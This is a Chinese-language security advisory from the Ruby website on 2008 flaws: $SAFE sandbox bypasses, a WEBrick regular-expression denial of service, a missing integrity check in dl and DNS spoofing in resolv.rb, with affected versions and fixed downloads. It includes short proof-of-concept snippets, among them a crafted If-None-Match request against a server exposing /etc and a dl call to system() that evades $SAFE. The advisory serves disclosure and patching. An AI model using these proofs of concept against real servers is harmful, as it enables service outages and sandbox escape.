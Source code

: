 ```yaml
---
layout: news_post
title: "Ruby中的多个安全漏洞 - Ruby 官方网站"
author: "Xpol Wan"
lang: zh_cn
---
```


Ruby中发现多个安全漏洞。建议你更新到最新版本。

## 详情

发现以下安全漏洞。

### 在安全级别下的几个漏洞

发现在安全级别下存在几个漏洞。

* 在安全级别4下untrace\_var被允许。
  
      trace_var(:$VAR) {|val| puts "$VAR = #{val}" }
      
      Thread.new do
       $SAFE = 4
       eval %q{
         proc = untrace_var :$VAR
         proc.first.call("aaa")
       }
      end.join

* 在安全级别4下$PROGRAM\_NAME可能被修改。
  
      Thread.new do
       $SAFE = 4
       eval %q{$PROGRAM_NAME.replace "Hello, World!"}
      end.join
      
      $PROGRAM_NAME #=> "Hello, World!"

* 在安全级别1-3下可能调用不安全的方法。
  
      class Hello
       def world
         Thread.new do
           $SAFE = 4
           msg = "Hello, World!"
           def msg.size
             self.replace self*10 # replace string
             1 # return wrong size
           end
           msg
         end.value
       end
      end
      
      $SAFE = 1 # or 2, or 3
      s = Hello.new.world
      if s.kind_of?(String)
       puts s if s.size < 20 # print string which size is less than 20
      end

* 在安全级别4下Syslog操作被允许。
  
      require "syslog"
      
      Syslog.open
      
      Thread.new do
       $SAFE = 4
       eval %q{
         Syslog.log(Syslog::LOG_WARNING, "Hello, World!")
         Syslog.mask = Syslog::LOG_UPTO(Syslog::LOG_EMERG)
         Syslog.info("masked")
         Syslog.close
       }
      end.join

以上漏洞是由Keita Yamaguchi报告的。

### WEBrick中的致拒绝服务(DoS)漏洞

WEBrick::HTTP::DefaultFileHandler存在消耗指数时间响应请求的错误，
因为WEBrick::HTTPUtils.split\_header\_value中的一个回溯正则表达式 （backtracking
regular expression）。

可被利用的服务器：

    require 'webrick'
    WEBrick::HTTPServer.new(:Port => 2000, :DocumentRoot => "/etc").start

攻击：

    require 'net/http'
    res = Net::HTTP.start("localhost", 2000) { |http|
      req = Net::HTTP::Get.new("/passwd")
      req['If-None-Match'] = %q{meh=""} + %q{foo="bar" } * 100
      http.request(req)
    }
    p res

在这个例子中这个请求很可能无法完成。

这个漏洞是由Christian Neukirchen报告的。

### dl中缺乏完整性检查

dl没有进行完整性检查，因此可能允许攻击者调用危险的函数。

    require 'dl'
    $SAFE = 1
    h = DL.dlopen(nil)
    sys = h.sym('system', 'IP')
    uname = 'uname -rs'.taint
    sys[uname]

这个漏洞是由sheepman报告的。

### resolv.rb的欺骗DNS漏洞

resolv.rb允许远程攻击者欺骗DNS响应。这个漏洞可以通过随机的DNS事务ID和源端口来解决。
所以resolv.rb已经采用随机化的方式来修正。

* 参考： [CVE-2008-1447][1]

这个漏洞是由Tanaka Akira报告的。

## 受影响的版本

1.8系列
: * 1\.8.5 和所有之前的版本
  * 1\.8.6-p285 和所有之前的版本
  * 1\.8.7-p70 和所有之前的版本

1.9系列
: * r18423 和所有之前的修订版本

## 解决办法

1.8系列
: 请更新到1.8.6-p286或者1.8.7-p71。
  * [&lt;URL:ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p286.tar.gz&gt;][2]
    
        (md5: 797ea136fe43e4286c9362ee4516674e,
        sha256: 1774de918b156c360843c1b68690f5f57532ee48ff079d4d05c51dace8d523ed,
        size: 4590373)
  
  * [&lt;URL:ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p71.tar.gz&gt;][3]
    
        (md5: 721741d1e0785a0b6b9fb07d55184908,
        sha256: 30ec4298e9ac186a2fe1a94362919ba805538252b707f3aadae1938429269c1a,
        size: 4805478)

1.9系列

: 请通过Subversion取得最新版本。
  
      $ svn co http://svn.ruby-lang.org/repos/ruby/trunk ruby

请注意修正这个漏洞的软件包可能已经可以通过你的软件包管理软件更新了。

## 贡献者

感谢Keita Yamaguchi, Christian Neukirchen, sheepman, and Tanaka Akira为Ruby
Security Team指出这个问题。

## 修订记录

* 2008-08-08 12:21 +09:00 fixed the revision number of ruby 1.9.



[1]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-1447 
[2]: ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p286.tar.gz 
[3]: ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p71.tar.gz 
